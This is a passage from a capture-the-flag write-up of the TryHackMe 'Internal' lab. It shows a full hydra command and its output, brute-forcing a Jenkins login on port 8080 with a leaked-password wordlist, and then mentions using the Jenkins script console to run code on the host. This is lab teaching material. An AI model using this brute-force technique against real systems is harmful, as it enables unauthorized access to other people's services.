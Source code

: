 Jenkins is running on port 8080. I tried to login using default credentials for jenkins `admin:password`, but that didnot work. I also tried logging with the few credentials I had obtained till now, that did not work either.

## Bruteforcing login for jenkins using hydra
```console
local@local:~/Documents/tryhackme/internal$ hydra -l admin -P /usr/share/wordlists/SecLists-master/Passwords/Leaked-Databases/rockyou-35.txt 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:loginError' -I -s 8080
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-29 19:25:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2506 login tries (l:1/p:2506), ~157 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:loginError
[8080][http-post-form] host: 127.0.0.1   login: admin   password: <jenkins-redacted-creds>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-29 19:26:08
```

And we get login credential for user admin. So, let's use the credentials to log into the  jenkins dashboard.
![8](/assets/images/thm/internal/8.png)

We can use script console on jenkins to execute code on the host.
![9](/assets/images/thm/internal/9.png)
